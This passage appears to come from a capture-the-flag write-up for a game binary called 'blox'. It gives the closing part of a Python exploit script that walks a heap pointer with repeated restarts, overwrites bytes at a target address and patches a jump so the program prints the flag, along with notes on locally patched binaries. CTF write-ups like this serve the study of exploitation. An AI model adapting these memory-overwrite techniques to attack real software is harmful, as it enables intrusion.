 ```python
for i in range((0x00401207 - 0x004011F3) // 4):
    restart()

#override the first bytes of 0xbadb01 with 0x414141
restart("AAA")


startGame()
#set the heap_top to 0x00400705, 2 off of the first time
setHeapTop2()

#loop until we reach the second jump to override
for i in range((0x004011fd - 0x00400705)//4):
    restart()

#override the jump with
#inc edx
restart("BB")

for i in range((0x00401209 - 0x00401201)//4):
    restart()

#and finally, set the last byte of 0xbadb01 to 0x41
restart("AA")

startGame()
#print the flag :)
p.send(" " * 10)
p.interactive()
```
This code is not really optimized and it takes like a minute for it to get the flag.  
*Note that I patched a version of the binary, since it was rather slow with the complete output and it always timed out in the remote server*  
*bloxModifed* is a modified version, without any output and when `hw_log` gets called, it will output ` IJLOSZT`.  
*bloxModified2* is the same, but in `hw_log` it compares the supplied code to `0x41414141` and only if they match it prints ` IJLOSZT`  